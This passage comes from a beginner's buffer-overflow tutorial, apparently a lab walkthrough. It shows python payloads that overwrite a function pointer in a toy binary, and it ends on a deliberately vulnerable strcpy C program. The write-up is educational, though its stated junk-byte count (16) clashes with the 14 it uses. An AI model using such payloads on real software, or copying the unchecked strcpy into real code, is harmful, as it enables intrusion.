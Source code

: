 ```
```

At 20 bytes we can overwrite the function pointer as you can see in the output. If we enter more than 20 we can't overwrite it and it redirect to somewhere else.

*Use the following command to find the address of the function special*
```
objdump -d func-pointer | grep special
0000000000400567 <special>:
```
*Remember hat the architecture of this machine is little endian!*
So the address in hex form is `\x67\x05\x40\x00\x00\x00`
`20-6=14` ie:We need 16 junk bytes and the address of the special function
```
python -c "print('A'*14 + '\x67\x05\x40\x00\x00\x00')" | ./func-pointer 
this is the special function
you did this, friend!
```
Lets try with another function.
```
objdump -d func-pointer | grep other
0000000000400593 <other>:
```
And the address is `\x93\x05\x40\x00\x00\x00`
```
python -c "print('A'*14 + '\x93\x05\x40\x00\x00\x00')" | ./func-pointer 
why is this here?
```
Yo we did this!!

### Actual Buffer Overflow
Here is what the actual hero of the buffer overflow concept is digged. Lets take it out.
Guessed what!! A **shell**.

Program:
```
#include <stdio.h>
#include <stdlib.h>

void copy_arg(char *string)
{
    char buffer[140];
    strcpy(buffer, string);
    printf("%s\n", buffer);
    return 0;
}

int main(int argc, char **argv)
{
    printf("Here's a program that echo's out your input\n");
    copy_arg(argv[1]);
}
```
